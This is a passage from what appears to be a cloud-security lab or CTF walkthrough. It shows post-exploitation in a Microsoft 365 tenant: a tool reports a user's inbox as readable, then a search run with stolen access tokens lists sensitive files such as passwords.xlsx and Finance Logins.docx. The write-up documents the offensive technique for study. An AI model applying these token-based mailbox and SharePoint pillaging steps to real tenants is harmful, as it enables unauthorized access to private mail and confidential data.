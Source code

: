```powershell
[*] SUCCESS! Inbox of Clara.Miller@megabigtech.com is readable.                                                         
Latest Email Received 11/06/2023 14:51:57 with subject: Quick Heads-Up on This Month's Recons!
70 of 71 mailboxes checked

```


---
## 2.3 Pillage Flow

### 2.3.1 Invoke-SearchSharePointAndOneDrive

So fortunately, this command support the wild card character and download files. Since I am using pwsh from linux, I tried to read those files with  O365.

However, You need permission to access this item. So it is interesting to me that Clara has privilege to download, but I need her MFA device to use GUI. With Security-user credential, I can view limited files. 

![](https://i.imgur.com/fAlNM5D.png)



```powershell
PS> Invoke-SearchSharePointAndOneDrive -searchTerm * -Tokens $tokens    
[*] Using the provided access tokens.                                
[*] Found 14 matches for search term *                              
Result [0]                                                        
File Name: passwords.xlsx                                        
Location: https://iancloudpwned.sharepoint.com/Shared Documents/passwords.xlsx 
Created Date: 03/27/2024 00:13:10                    
Last Modified Date: 07/22/2024 08:20:00       
Result [1]

File Name: Bonuses - Confidential.xlsx
Location: https://iancloudpwned-my.sharepoint.com/personal/sam_olsson_megabigtech_com/Documents/Bonuses - Confidential.xlsx


https://iancloudpwned.sharepoint.com/sites/FinanceTeam/Shared Documents/Finance Logins.docx 

Result [3]                        
File Name: Finance Logins.docx                       
Location: https://iancloudpwned.sharepoint.com/sites/FinanceTeam/Shared Documents/Finance Logins.docx       
...snip...                      
================================================================================                         
Result [4]                                                       
File Name: Document.docx                                                    
Location: https://iancloudpwned.sharepoint.com/sites/FinanceTeam/Shared Documents/Document.docx 
...snip...                                                                                                                
================================================================================                           
Result [5]               
File Name: Default Directory Notebook                                       
Location: https://iancloudpwned.sharepoint.com/sites/DefaultDirectory/SiteAssets/Default Directory Notebook 
...snip...   
================================================================================                            
Result [6]                                
File Name: __siteIcon__.jpg                                                 
```